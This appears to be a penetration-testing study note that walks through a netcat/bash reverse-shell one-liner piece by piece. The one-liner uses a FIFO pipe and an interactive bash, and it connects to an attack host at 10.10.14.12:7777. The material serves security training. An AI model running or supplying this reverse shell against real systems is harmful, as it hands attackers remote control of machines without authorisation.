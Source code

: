 
Below are previously used one liners, explained in depth

**Netcat/Bash Reverse Shell One-Liner**
```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```
	- `rm -f /tmp/f` Removes the `/tmp/f` file if it exists, `-f` causes `rm` to ignore nonexistent files
	- mkfifo /tmp/f Makes a FIFO named pipe file](https://man7.org/linux/man-pages/man7/fifo.7.html) at the location specified
	- cat /tmp/f Concatenates the FIFO named pipe file /tmp/f
	- /bin/bash -i 2>&1 Specifies the command language interpreter using the `-i` option to ensure the shell is interactive. `2>&1` ensures the standard error data stream (`2`) `&` standard output data stream (`1`) are redirected to the command following the pip
	- nc 10.10.14.12 7777 > /tmp/f Uses Netcat to send a connection to our attack host `10.10.14.12` listening on port `7777`. The output will be redirected (`>`) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

